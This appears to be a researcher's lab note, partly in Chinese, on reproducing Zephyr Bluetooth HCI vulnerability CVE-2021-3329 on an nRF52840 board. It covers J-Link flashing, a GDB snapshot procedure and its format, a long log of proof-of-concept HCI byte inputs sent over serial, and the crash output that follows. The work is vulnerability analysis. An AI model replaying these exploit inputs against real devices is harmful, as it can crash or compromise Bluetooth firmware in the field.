

固件和3329的是一样的，snapshot的收集可以复用3329的方法。

# CVE-2021-3329 Snapshot

## Prerequisites

- SEGGER J-Link Software (JLinkExe, JLinkGDBServer)
- nRF Command Line Tools (nrfjprog)
- gdb-multiarch

## Step 1: Flash firmware

```bash
JLinkExe -if SWD -device nRF52840_xxAA
```

In JLinkExe:
```
connect
```
Speed>          ← 这里直接按回车，用默认 4000 kHz
```
loadfile zephyr-CVE-2021-3329-trace.hex
exit
```

You will see the following output:
```
SEGGER J-Link Commander V9.44 (Compiled May 20 2026 16:13:14)
DLL version V9.44, compiled May 20 2026 16:12:32

Connecting to J-Link ...O.K.
Firmware: J-Link OB-nRF5340-NordicSemi compiled Jul  8 2025 10:15:34
Hardware version: V1.00
J-Link uptime (since boot): 0d 03h 20m 19s
S/N: 1050275288
License(s): RDI,FlashBP,FlashDL,JFlash,GDB
USB speed mode: Full speed (12 MBit/s)
VTref=3.300V


Type "connect" to establish a target connection, '?' for help
J-Link>connect
Specify target interface speed [kHz]. <Default>: 4000 kHz
Speed>
Device "NRF52840_XXAA" selected.


Connecting to target via SWD
InitTarget() start
InitTarget() end - Took 1.71ms
Found SW-DP with ID 0x2BA01477
DPIDR: 0x2BA01477
CoreSight SoC-400 or earlier
Scanning AP map to find all available APs
AP[2]: Stopped AP scan as end of AP map has been reached
AP[0]: AHB-AP (IDR: 0x24770011, ADDR: 0x00000000)
AP[1]: JTAG-AP (IDR: 0x02880000, ADDR: 0x01000000)
Iterating through AP map to find AHB-AP to use
AP[0]: Core found
AP[0]: AHB-AP ROM base: 0xE00FF000
CPUID register: 0x410FC241. Implementer code: 0x41 (ARM)
Found Cortex-M4 r0p1, Little endian.
FPUnit: 6 code (BP) slots and 2 literal slots
CoreSight components:
ROMTbl[0] @ E00FF000
[0][0]: E000E000 CID B105E00D PID 000BB00C SCS-M7
[0][1]: E0001000 CID B105E00D PID 003BB002 DWT
[0][2]: E0002000 CID B105E00D PID 002BB003 FPB
[0][3]: E0000000 CID B105E00D PID 003BB001 ITM
[0][4]: E0040000 CID B105900D PID 000BB9A1 TPIU
[0][5]: E0041000 CID B105900D PID 000BB925 ETM
Memory zones:
  Zone: "Default" Description: Default access mode
Cortex-M4 identified.
J-Link>loadfile zephyr-CVE-2021-3329-trace.hex
'loadfile': Performing implicit reset & halt of MCU.
Reset type: NORMAL (https://kb.segger.com/J-Link_Reset_Strategies)
Reset: Halt core after reset via DEMCR.VC_CORERESET.
Reset: Reset device via AIRCR.SYSRESETREQ.
Downloading file [zephyr-CVE-2021-3329-trace.hex]...
J-Link: Flash download: Bank 0 @ 0x00000000: 1 range affected (73728 bytes)
J-Link: Flash download: Total: 2.773s (Prepare: 0.170s, Compare: 0.100s, Erase: 1.513s, Program: 0.824s, Verify: 0.037s, Restore: 0.126s)
J-Link: Flash download: Program & Verify speed: 83 KB/s
O.K.
J-Link>exit
```

## Step 2: Start GDB Server

```bash
JLinkGDBServer -select usb -port 2331 -if swd -speed 4000 -device nRF52840_xxAA -silent -singlerun -nogui
```

You will see the following output:
```
(.venv) ➜  /home/s/boge/InVulAna-script/realworld/nrf52/3329/trace git:(main) ✗ JLinkGDBServer -select usb -port 2331 -if swd -speed 4000 \
  -device nRF52840_xxAA -silent -singlerun -nogui
SEGGER J-Link GDB Server V9.44 Command Line Version

JLinkARM.dll V9.44 (DLL compiled May 20 2026 16:12:32)

-----GDB Server start settings-----
GDBInit file:                  none
GDB Server Listening port:     2331
SWO raw output listening port: 2332
Terminal I/O port:             2333
Accept remote connection:      yes
Generate logfile:              off
Verify download:               off
Init regs on start:            off
Silent mode:                   on
Single run mode:               on
Target connection timeout:     0 ms
------J-Link related settings------
J-Link Host interface:         USB
J-Link script:                 none
J-Link settings file:          none
------Target related settings------
Target device:                 nRF52840_xxAA
Target device parameters:      none
Target interface:              SWD
Target interface speed:        4000kHz
Target endian:                 little
```

And the console will be blocked until the GDB client connects and continues execution.


## Step 3: Connect GDB and dump state

```bash
gdb-multiarch zephyr-CVE-2021-3329-trace.elf -x snapshot_cmds.gdb
```

GDB commands (`snapshot_cmds.gdb`):
```
target remote :2331
monitor halt
monitor reset
b arch_cpu_idle
c
info registers r0-r12 sp lr pc msp psp control
p/x *(unsigned int*)0xE000E100   # NVIC_ISER0
p/x *(unsigned int*)0xE000E104   # NVIC_ISER1
p/x *(unsigned int*)0xE000E108   # NVIC_ISER2
p/x *(unsigned int*)0xE000E10C   # NVIC_ISER3
p/x *(unsigned int*)0xE000E110   # NVIC_ISER4
p/x *(unsigned int*)0xE000E114   # NVIC_ISER5
p/x *(unsigned int*)0xE000E118   # NVIC_ISER6
p/x *(unsigned int*)0xE000E018   # SysTick VAL
dump binary memory ram.bin 0x20000000 0x20100000
disconnect
quit
```

## Step 4: Generate snapshot

```bash
python3 snapshot.py
```

Output: `3329.snapshot` (1,048,688 bytes)

## Snapshot format

| Offset | Size | Content |
|--------|------|---------|
| 0x000 | 4B | dma = 0x3fffffff |
| 0x004 | 4B | r0 |
| 0x008 | 4B | r1 |
| 0x00C | 4B | r2 |
| 0x010 | 4B | r3 |
| 0x014 | 4B | r4 |
| 0x018 | 4B | r5 |
| 0x01C | 4B | r6 |
| 0x020 | 4B | r7 |
| 0x024 | 4B | r8 |
| 0x028 | 4B | r9 |
| 0x02C | 4B | r10 |
| 0x030 | 4B | r11 |
| 0x034 | 4B | r12 |
| 0x038 | 4B | sp |
| 0x03C | 4B | lr |
| 0x040 | 4B | pc |
| 0x044 | 4B | msp |
| 0x048 | 4B | psp |
| 0x04C | 4B | control |
| 0x050 | 4B | NVIC_ISER0 |
| 0x054 | 4B | NVIC_ISER1 |
| 0x058 | 4B | NVIC_ISER2 |
| 0x05C | 4B | NVIC_ISER3 |
| 0x060 | 4B | NVIC_ISER4 |
| 0x064 | 4B | NVIC_ISER5 |
| 0x068 | 4B | NVIC_ISER6 |
| 0x06C | 4B | systick_val |
| 0x070 | 1MB | RAM (0x20000000 - 0x20100000) |


不知道为什么可能是因为Overflow，所以这里的input数量在后期和后面的实际导出的trace里面的数量不一致（从1350开始出问题），但漏洞是正常触发了的。
```shell
(.venv) ➜  /home/s/boge/InVulAna-script/realworld/nrf52/0397/real git:(main) ✗ python poc.py
打开串口成功。
/dev/ttyACM0
remain 353 In: 04 10 

remain 352 In: 01 

remain 351 In: 01 62 01 01 13 e7 00 

remain 350 In: ff 01 01 

remain 349 In: ff 

remain 348 In: 00 e7 e7 ee 27 f9 e7 64 01 

remain 347 In: 01 01 e1 08 

remain 346 In: 01 6d 68 

remain 345 In: eb 

remain 344 In: 01 

remain 343 In: 04 ed 1a 01 04 80 

remain 342 In: 01 01 01 e1 01 00 01 01 80 04 ed 01 1e 03 

remain 341 In: 08 81 ff 

remain 340 In: 01 01 01 ff 

remain 339 In: 4d 09 01 04 0f 21 00 01 80 01 00 01 01 80 04 ed 01 

remain 338 In: e7 e7 e7 e7 

remain 337 In: ff 01 01 02 1e 03 

remain 336 In: 08 ff 22 

remain 335 In: e7 e7 01 64 ee 27 

remain 334 In: 01 ff 

remain 333 In: e7 05 

remain 332 In: 01 

remain 331 In: 01 00 

remain 330 In: 68 

remain 329 In: d9 

remain 328 In: 04 

remain 327 In: a7 01 

remain 326 In: 04 

remain 325 In: 05 

remain 324 In: 01 1a 1e eb 

remain 323 In: 01 

remain 322 In: e7 05 00 

remain 321 In: 01 f5 f7 

remain 320 In: 08 

remain 319 In: e7 05 

remain 318 In: 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 81 81 81 81 2c 

remain 317 In: 01 01 01 01 01 01 01 01 01 01 ef 01 e1 08 

remain 316 In: 01 

remain 315 In: 10 

remain 314 In: 01 

remain 313 In: 10 

remain 312 In: 01 e7 49 

remain 311 In: 01 

remain 310 In: 10 

remain 309 In: 01 

remain 308 In: 01 de 

remain 307 In: 10 

remain 306 In: 01 

remain 305 In: ff 

remain 304 In: e7 

remain 303 In: 04 0f 20 00 01 80 01 00 01 01 80 04 ed 01 1e 03 

remain 302 In: 08 ff 22 

remain 301 In: 00 01 08 01 

remain 300 In: 1e 03 40 

remain 299 In: 80 04 80 ff 

remain 298 In: e7 e7 ca e7 0f 

remain 297 In: 64 01 

remain 296 In: 01 

remain 295 In: 43 20 01 

remain 294 In: d9 

remain 293 In: 04 

remain 292 In: a7 01 

remain 291 In: 04 

remain 290 In: 05 

remain 289 In: 01 

remain 288 In: 01 

remain 287 In: 01 

remain 286 In: 10 

remain 285 In: 01 

remain 284 In: 01 de 

remain 283 In: 10 

remain 282 In: 01 

remain 281 In: ff 

remain 280 In: e7 

remain 279 In: 04 0f 20 00 01 01 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 01 01 01 01 01 01 01 01 01 00 01 01 01 01 01 01 01 01 01 01 01 01 e4 01 01 01 01 01 7f 7f 7f 7f 7f 27 

remain 278 In: 01 01 01 01 01 01 01 01 01 01 01 ff 01 01 

remain 277 In: ff 

remain 276 In: e9 d1 01 01 

remain 275 In: 04 

remain 274 In: ff 01 00 13 13 01 04 

remain 273 In: 08 03 

remain 272 In: 40 

remain 271 In: 01 03 01 

remain 270 In: 04 

remain 269 In: 0f 04 00 01 02 

remain 268 In: 04 

remain 267 In: 01 01 

remain 266 In: ff 01 08 

remain 265 In: 01 6d 68 

remain 264 In: ff 

remain 263 In: 00 e7 e7 ee 27 f9 e7 64 01 

remain 262 In: 01 01 e1 08 

remain 261 In: 01 6d 68 

remain 260 In: eb 

remain 259 In: 01 

remain 258 In: 04 ed 1a 01 04 80 

remain 257 In: 01 01 01 e1 01 00 01 01 80 04 ed 01 1e 03 

remain 256 In: 08 81 ff 

remain 255 In: 01 01 01 ff 

software breakpoint, input 402 press to continue
continue run
remain 254 In: 4d 09 01 04 0f 21 00 01 80 01 00 01 01 80 04 ed 01 

remain 253 In: e7 e7 e7 e7 

remain 252 In: ff 01 01 02 1e 03 

remain 251 In: 08 ff 22 

remain 250 In: e7 e7 01 64 ee 27 

remain 249 In: 01 ff 

remain 248 In: e7 05 

remain 247 In: 01 

remain 246 In: 01 00 

remain 245 In: 68 

remain 244 In: d9 

remain 243 In: 04 

remain 242 In: a7 01 

remain 241 In: 04 

remain 240 In: 05 

remain 239 In: 1e eb 

remain 238 In: 01 

remain 237 In: e7 05 00 

remain 236 In: 01 f5 f7 

remain 235 In: 08 

remain 234 In: 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 81 81 81 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 7f 7f 7f 7f 7f 

remain 233 In: 01 01 01 01 01 01 01 01 0f 01 e1 08 

remain 232 In: 80 ff 

remain 231 In: 20 

remain 230 In: eb 01 01 01 01 

remain 229 In: 10 

remain 228 In: 01 00 

remain 227 In: 01 f5 f7 

remain 226 In: 08 

remain 225 In: 01 ff 01 

remain 224 In: 01 03 

remain 223 In: 0f 62 01 01 13 e7 00 

remain 222 In: ff 01 01 

remain 221 In: ff 

remain 220 In: 00 e7 e7 ee 27 f9 e7 64 01 

remain 219 In: 01 01 e1 08 

remain 218 In: 01 6d 68 

remain 217 In: eb 

remain 216 In: 01 

remain 215 In: 04 ed 1a 01 04 80 

remain 214 In: 01 01 01 e1 01 00 01 01 80 04 ed 01 1e 03 

remain 213 In: 08 81 ff 

remain 212 In: 01 01 01 ff 

remain 211 In: 4d 09 01 04 0f 21 00 01 80 01 00 01 01 80 04 ed 01 

remain 210 In: e7 e7 e7 e7 

remain 209 In: ff 01 01 02 1e 03 

remain 208 In: 08 ff 22 

remain 207 In: e7 e7 01 64 ee 27 

remain 206 In: 01 ff 

remain 205 In: e7 05 

remain 204 In: 01 

remain 203 In: 01 00 

remain 202 In: 68 

remain 201 In: d9 

remain 200 In: 04 

remain 199 In: a7 01 

remain 198 In: 04 

remain 197 In: 05 

remain 196 In: 1e eb 

remain 195 In: 01 

remain 194 In: e7 05 00 

remain 193 In: 01 f5 f7 

remain 192 In: 08 

remain 191 In: e7 05 

remain 190 In: 43 4d ed 43 01 1b 

remain 189 In: 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 81 81 81 81 2c 

remain 188 In: 01 01 01 01 01 01 01 01 01 01 20 20 01 01 

remain 187 In: ff 

remain 186 In: 10 

remain 185 In: 01 e7 49 

remain 184 In: 00 e7 e7 

remain 183 In: 04 

remain 182 In: 04 

remain 181 In: 01 

remain 180 In: 10 

remain 179 In: 01 

remain 178 In: ff 

remain 177 In: e7 

remain 176 In: 04 0f 20 00 01 80 01 00 01 01 80 04 00 01 1e 03 

remain 175 In: 08 ff 22 81 

remain 174 In: 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 

remain 173 In: 01 23 ff 

remain 172 In: 10 

remain 171 In: 01 e7 49 

remain 170 In: 01 01 

remain 169 In: 10 

remain 168 In: 01 

remain 167 In: ff 

remain 166 In: e7 

remain 165 In: 04 0f 20 00 01 80 01 01 17 00 

remain 164 In: 00 01 01 01 00 00 ff 22 

remain 163 In: 01 ff 

remain 162 In: 01 64 ee 27 

remain 161 In: 01 ff 

remain 160 In: 00 01 01 20 1a 80 04 ed 40 4d 4d 4d 4d 4d 4d 01 6d 68 

remain 159 In: 55 f8 01 

remain 158 In: e1 f5 01 05 01 

remain 157 In: 10 

remain 156 In: 01 

remain 155 In: a7 20 

software breakpoint, input 826 press to continue
continue run
remain 154 In: 08 f9 1c 

remain 153 In: 01 00 

remain 152 In: 08 

remain 151 In: e7 05 00 

remain 150 In: 01 f5 f7 

remain 149 In: 08 

remain 148 In: e7 05 

remain 147 In: 01 01 4d 01 01 1b 

remain 146 In: 15 

remain 145 In: 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 01 01 01 00 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 00 04 

remain 144 In: 01 01 01 01 01 01 10 01 00 00 e1 04 1e 03 

remain 143 In: ff 00 1c 

remain 142 In: 01 d1 11 80 ff 

remain 141 In: 20 

remain 140 In: eb 01 01 01 01 

remain 139 In: 10 

remain 138 In: 01 00 

remain 137 In: 01 f5 f7 

remain 136 In: 08 

remain 135 In: 01 81 

remain 134 In: 10 

remain 133 In: 01 

remain 132 In: a7 20 

remain 131 In: 08 f9 e7 

remain 130 In: 15 

remain 129 In: 01 

remain 128 In: ff 

remain 127 In: 04 

remain 126 In: 0f 04 00 01 02 

remain 125 In: 0d 01 03 03 

remain 124 In: 04 

remain 123 In: 01 

remain 122 In: 0f 

remain 121 In: 03 03 03 40 

remain 120 In: 01 0f 04 00 00 03 

remain 119 In: 04 62 80 

remain 118 In: 40 

remain 117 In: 03 

remain 116 In: 05 01 

remain 115 In: 0d 00 

remain 114 In: 04 

remain 113 In: 0f 04 00 01 02 

remain 112 In: 0d 01 03 03 

remain 111 In: 0f 01 31 03 

remain 110 In: 20 

remain 109 In: d1 

remain 108 In: 80 

remain 107 In: a7 20 

remain 106 In: 04 

remain 105 In: 0f 04 00 01 02 

remain 104 In: ff 

remain 103 In: 40 

remain 102 In: 7f 

remain 101 In: 46 04 

remain 100 In: 0f 04 00 01 02 

remain 99 In: 0d 01 03 03 

remain 98 In: 05 00 f9 e7 64 01 43 ee 01 f5 f7 

remain 97 In: 08 

remain 96 In: 01 

remain 95 In: 10 

remain 94 In: 01 

remain 93 In: 01 de 

remain 92 In: 10 

remain 91 In: 01 

remain 90 In: ff 

remain 89 In: e7 

remain 88 In: 04 0f 20 00 01 01 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 01 01 01 01 01 01 01 01 01 00 01 01 01 01 01 01 01 01 01 01 01 01 e4 01 01 01 01 01 7f 7f 7f 7f 7f 27 

remain 87 In: 01 01 01 01 01 01 01 ef 01 e1 08 

remain 86 In: d1 d1 01 01 04 

remain 85 In: 23 02 

remain 84 In: 13 13 e6 10 

remain 83 In: 01 f5 f7 

remain 82 In: 04 

remain 81 In: 0f 04 00 01 02 

remain 80 In: 0d 01 03 03 

remain 79 In: 7f 

remain 78 In: 01 

remain 77 In: 7f 

remain 76 In: e5 

remain 75 In: 05 

remain 74 In: e7 05 00 

remain 73 In: d4 

remain 72 In: ff 

remain 71 In: e7 05 

remain 70 In: 43 4d ed 43 01 1b 

remain 69 In: 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 81 81 81 81 2c 

remain 68 In: 01 21 01 01 01 01 01 01 01 01 

remain 67 In: 04 

remain 66 In: 04 

remain 65 In: a7 13 13 13 01 01 d1 d1 00 ff 01 04 00 13 08 

remain 64 In: 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 80 81 81 81 81 81 81 81 81 81 81 

remain 63 In: 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 20 00 01 01 e1 00 00 

remain 62 In: 0f 04 00 00 ff 01 03 03 03 64 e8 

remain 61 In: 04 62 80 

remain 60 In: 04 

remain 59 In: 05 01 01 00 01 

remain 58 In: 0d 00 00 

remain 57 In: 04 62 80 

remain 56 In: 04 

remain 55 In: f6 

software breakpoint, input 1350 press to continue
continue run
remain 54 In: 01 

remain 53 In: 03 03 03 40 80 08 

remain 52 In: 00 04 

remain 51 In: 4d 4d 01 f8 01 01 80 03 

remain 50 In: 10 

remain 49 In: 08 f6 

remain 48 In: 04 15 01 

remain 47 In: 01 03 03 03 40 80 08 

remain 46 In: 04 62 80 

remain 45 In: 04 

remain 44 In: 03 03 03 40 

remain 43 In: ef 03 01 

remain 42 In: 0f 

remain 41 In: 01 03 01 

remain 40 In: 31 

remain 39 In: 6c 

remain 38 In: 04 

remain 37 In: 0f 04 09 01 02 

remain 36 In: 0d 00 

remain 35 In: 04 

remain 34 In: 0f 04 00 01 02 

remain 33 In: 0d 01 03 03 

remain 32 In: 05 00 64 01 ed 

remain 31 In: af 

remain 30 In: 10 

remain 29 In: 01 

remain 28 In: ff 

remain 27 In: e7 

remain 26 In: 04 0f 20 00 01 01 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 81 01 01 01 01 01 01 01 01 01 00 01 01 01 01 01 01 01 01 01 01 01 01 e4 01 1c 

remain 25 In: 01 de 

remain 24 In: 00 

remain 23 In: 17 

remain 22 In: 04 

remain 21 In: ff 01 41 

remain 20 In: 01 01 01 01 01 01 01 ff 01 01 

remain 19 In: ff 

remain 18 In: e7 

remain 17 In: 01 

remain 16 In: 10 

remain 15 In: 01 

remain 14 In: 01 de 

remain 13 In: 10 

remain 12 In: 01 

remain 11 In: ff 

remain 10 In: e7 

remain 9 In: 04 0f 20 00 01 80 01 00 01 01 80 04 00 01 1e 03 

remain 8 In: 08 ff 22 

remain 7 In: 04 62 80 

remain 6 In: 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 4b 01 ff 01 08 

remain 5 In: 04 3e 1b 

remain 4 In: 01 00 2c 

remain 3 In: 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 01 ef 01 ff 01 01 01 e1 00 e1 04 1e 03 

remain 2 In: 10

software breakpoint, input 1606 press to continue
continue run
remain 1 In: 04 03 10 03 00 20 40

software breakpoint, press to continue
continue run
sleep::::
```

实际的trace里面的数量：
```shell
➜  /home/s/boge grep "00009498" /home/s/boge/InVulAna-script/realworld/nrf52/3329/trace/Ozone_Instruction_Trace_260602.csv | wc -l
826
➜  /home/s/boge grep "00009498" /home/s/boge/InVulAna-script/realworld/nrf52/3329/trace/Ozone_Instruction_Trace_260602.csv | wc -l
1023
➜  /home/s/boge grep "00009498" /home/s/boge/InVulAna-script/realworld/nrf52/3329/trace/Ozone_Instruction_Trace_260602.csv | wc -l
1029
➜  /home/s/boge grep "00009498" /home/s/boge/InVulAna-script/realworld/nrf52/3329/trace/Ozone_Instruction_Trace_260602.csv | wc -l
1285
```

最后触发漏洞是这个反应：


```shell
- - - - - - - - - - - - - - - - - TARGET RESET - - - - - - - - - - - - - - - - -
*** Booting Zephyr OS build zephyr-v2.2.0-2230-ge1dddf7befa7  ***
Successfully configure null mpu regions
[00:00:09.083,587] <wrn> bt_hci_core: Unhandled event 0x10 len 1: 01
[00:00:10.287,658] <wrn> bt_hci_core: Unhandled event 0xed len 26: 010480010101e1010001018004ed011~
[00:00:10.889,251] <wrn> bt_hci_core: OpCode 0x0180 completed instead of expected 0x0c03
[00:00:11.591,705] <wrn> bt_hci_core: Unhandled event 0xa7 len 1: 04
[00:00:14.408,050] <wrn> bt_hci_core: OpCode 0x0180 completed instead of expected 0x1003
[00:00:15.110,382] <wrn> bt_hci_core: Unhandled event 0xa7 len 1: 04
[00:00:16.317,749] <wrn> bt_hci_core: OpCode 0x8101 completed instead of expected 0x1001
[00:00:17.117,767] <wrn> bt_hci_core: Unhandled event 0x08 len 3: 400103
[00:00:17.418,670] <wrn> bt_hci_core: OpCode 0x0402 completed instead of expected 0x1002
[00:00:41.600,280] <wrn> bt_hci_core: Unhandled event 0xed len 26: 010480010101e1010001018004ed011~
[00:00:42.204,589] <wrn> bt_hci_core: OpCode 0x0180 completed instead of expected 0x2018
[00:00:43.107,391] <wrn> bt_hci_core: Unhandled event 0xa7 len 1: 04
[00:00:46.119,445] <wrn> bt_hci_core: Unhandled event 0xed len 26: 010480010101e1010001018004ed011~
[00:00:46.722,229] <wrn> bt_hci_core: OpCode 0x0180 completed instead of expected 0x2018
[00:00:47.625,976] <wrn> bt_hci_core: Unhandled event 0xa7 len 1: 04
[00:00:49.431,365] <wrn> bt_hci_core: Unhandled event 0x04 len 1: 10
[00:00:50.034,240] <wrn> bt_hci_core: OpCode 0x0180 completed instead of expected 0x2018
[00:00:51.638,763] <wrn> bt_hci_core: OpCode 0x0180 completed instead of expected 0x2018
[00:01:37.028,167] <wrn> bt_driver: Unable to read H:4 packet type
[00:01:40.908,599] <wrn> bt_hci_core: Unhandled event 0x01 len 1: 01
[00:01:41.008,789] <wrn> bt_hci_core: Unhandled event 0x1e len 3: ff001c
[00:01:42.813,873] <wrn> bt_hci_core: OpCode 0x0d02 completed instead of expected 0x2018
[00:01:42.815,979] <wrn> bt_hci_core: Controller to host flow control not supported
[00:01:43.618,286] <wrn> bt_hci_core: Unhandled event 0x01 len 15: 03030340010f040000030462804003
[00:01:44.119,445] <wrn> bt_hci_core: OpCode 0x0d02 completed instead of expected 0x2003
[00:01:44.921,936] <wrn> bt_hci_core: OpCode 0xff02 completed instead of expected 0x2002
[00:04:33.729,980] <wrn> bt_hci_core: OpCode 0x0303 completed instead of expected 0x2001
[00:04:33.730,010] <wrn> bt_hci_core: opcode 0x2001 status 0x01
Bluetooth init failed (err -5)
[00:04:33.930,694] <err> bt_driver: Not enough space in buffer
[00:04:38.449,462] <wrn> bt_hci_core: opcode 0x0180 pool id 6 pool 0x20003e00 != &hci_cmd_pool 0x20003de0
[00:04:38.751,403] <err> bt_hci_core: Unable to add new conn for handle 300
[00:05:53.189,025] <wrn> bt_hci_core: Unhandled event 0x1e len 3: 100403
```